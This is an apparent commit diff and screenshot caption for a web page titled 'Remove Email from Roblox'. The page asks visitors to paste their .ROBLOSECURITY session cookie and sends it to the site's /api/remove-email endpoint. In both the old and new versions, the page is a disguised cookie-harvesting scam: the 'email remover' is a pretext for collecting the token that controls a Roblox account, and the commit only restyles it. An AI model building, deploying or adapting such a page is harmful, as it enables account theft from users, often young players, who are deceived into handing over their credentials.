

Before and after one commit to WeAreDevs-ops/test-app, a website: page public/index.html in a window 1280 px wide. Both pictures are taken after a click on the button "Remove Email". Shown: the whole page, without its empty margins (321-961 px from the left). Drawn offline with Linux system fonts and the light colour scheme; no server answers.

Commit message:
Update index.html

```diff
--- a/public/index.html
+++ b/public/index.html
@@ -1,24 +1,23 @@
 <!DOCTYPE html>
-<html>
+<html lang="en">
 <head>
-  <title>Roblox Email Remover</title>
+  <meta charset="UTF-8">
+  <title>Remove Email from Roblox</title>
   <style>
     body {
-      background-color: #f1f5f9;
-      font-family: Arial, sans-serif;
-      display: flex;
-      flex-direction: column;
-      align-items: center;
-      padding-top: 60px;
-    }
-    h2 {
-      color: #333;
+      font-family: sans-serif;
+      max-width: 400px;
+      margin: 60px auto;
+      padding: 20px;
+      border: 1px solid #ccc;
+      border-radius: 12px;
+      background: #f9f9f9;
     }
     input, button {
-      width: 300px;
+      width: 100%;
+      margin-top: 12px;
       padding: 10px;
-      margin-top: 10px;
-      font-size: 1rem;
+      font-size: 14px;
     }
     .result {
       margin-top: 20px;
@@ -28,28 +27,25 @@
 </head>
 <body>
   <h2>Remove Email from Roblox</h2>
-  <input id="cookie" placeholder=".ROBLOSECURITY Cookie" />
-  <button onclick="submit()">Remove Email</button>
+  <input type="text" id="cookie" placeholder=".ROBLOSECURITY Cookie" />
+  <button onclick="removeEmail()">Remove Email</button>
   <div class="result" id="result"></div>
 
   <script>
-    async function submit() {
+    async function removeEmail() {
       const cookie = document.getElementById('cookie').value;
-      const result = document.getElementById('result');
-      result.innerText = 'Processing...';
+      const resultDiv = document.getElementById('result');
 
-      try {
-        const res = await fetch('/api/remove-email', {
-          method: 'POST',
-          headers: { 'Content-Type': 'application/json' },
-          body: JSON.stringify({ cookie })
-        });
+      const res = await fetch('/api/remove-email', {
+        method: 'POST',
+        headers: {
+          'Content-Type': 'application/json'
+        },
+        body: JSON.stringify({ cookie })
+      });
 
-        const data = await res.json();
-        result.innerText = data.status === 'success' ? '✅ ' + data.message : '❌ ' + data.message;
-      } catch {
-        result.innerText = '❌ Request failed.';
-      }
+      const data = await res.json();
+      resultDiv.innerText = data.success ? '✅ Email removed' : '❌ Failed: ' + (data.message || 'Unknown error');
     }
   </script>
 </body>
```
